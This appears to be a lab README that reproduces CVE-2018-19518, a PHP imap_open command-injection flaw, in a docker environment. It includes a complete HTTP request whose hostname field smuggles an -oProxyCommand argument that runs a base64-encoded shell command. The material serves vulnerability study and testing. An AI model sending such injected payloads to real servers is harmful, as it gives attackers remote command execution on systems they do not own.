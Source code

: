 # PHP IMAP Remote Command Execution (CVE-2018-19518)

[中文版本(Chinese version)](README.zh-cn.md)

The PHP IMAP extension is used for email operations in PHP. Its `imap_open` function calls `rsh` to connect to remote shells. In Debian/Ubuntu systems, `ssh` is used by default instead of `rsh` (meaning when you execute the `rsh` command, it actually executes `ssh`).

Since the `ssh` command allows setting `-oProxyCommand=` to call third-party commands, attackers can inject this parameter to achieve remote command execution.

References:

- <https://bugs.php.net/bug.php?id=77153>
- <https://github.com/Bo0oM/PHP_imap_open_exploit>
- <https://antichat.com/threads/463395/#post-4254681>
- <https://nvd.nist.gov/vuln/detail/CVE-2018-19518>

## Environment Setup

Execute the following command to start a vulnerable PHP server:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080` to access the web page. The web functionality tests whether a mail server can be successfully connected, requiring server address, username, and password.

The source code can be found in [index.php](www/index.php)

## Vulnerability Reproduction

Send the following request to execute the command `echo '1234567890'>/tmp/test0001`:

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

Execute `docker compose exec web bash` to enter the container, and you can see that `/tmp/test0001` has been successfully created:

![](1.png)
